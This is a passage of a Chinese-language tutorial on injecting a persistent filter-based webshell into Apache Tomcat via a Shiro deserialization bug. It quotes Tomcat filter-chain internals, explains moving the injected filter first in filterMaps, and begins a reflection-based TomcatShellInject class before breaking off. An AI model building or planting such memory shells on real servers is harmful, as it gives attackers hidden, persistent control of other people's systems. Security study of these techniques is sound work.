 ```java
        } catch (Throwable var8) {
          Throwable t = ExceptionUtils.unwrapInvocationTargetException(var8);
          ExceptionUtils.handleThrowable(t);
          this.getLogger().error(sm.getString("standardContext.filterStart", new Object[]{name}), t);
          ok = false;
        }
      }

      return ok;
    }
}
```

没错，它遍历了filterDefs，一个个实例化成ApplicationFilterConfig添加到filterConfigs了。

这两个问题解决了，是不是就完成了呢，其实还没有，还差一个优化的地方，因为我们想要把filter放到最前面，在所有filter前执行，从而解决shiro漏洞的问题。

也简单，我们看回`org.apache.catalina.core.ApplicationFilterFactory#createFilterChain`的代码：

```java
// Add the relevant path-mapped filters to this filter chain
for (int i = 0; i < filterMaps.length; i++) {
    if (!matchDispatcher(filterMaps[i] ,dispatcher)) {
        continue;
    }
    if (!matchFiltersURL(filterMaps[i], requestPath))
        continue;
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
        context.findFilterConfig(filterMaps[i].getFilterName());
    if (filterConfig == null) {
        // FIXME - log configuration problem
        continue;
    }
}
```

创建的顺序是根据filterMaps的顺序来的，那么我们就有必要去修改我们添加的filter顺序到第一位了，最后，整个第二步骤的代码如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;

/**
 * @author threedr3am
 */
public class TomcatShellInject extends AbstractTranslet implements Filter {

    static {
        try {
            /*shell注入，前提需要能拿到request、response等*/
            java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class
                .getDeclaredField("lastServicedRequest");
            f.setAccessible(true);
            ThreadLocal t = (ThreadLocal) f.get(null);
            ServletRequest servletRequest = null;
```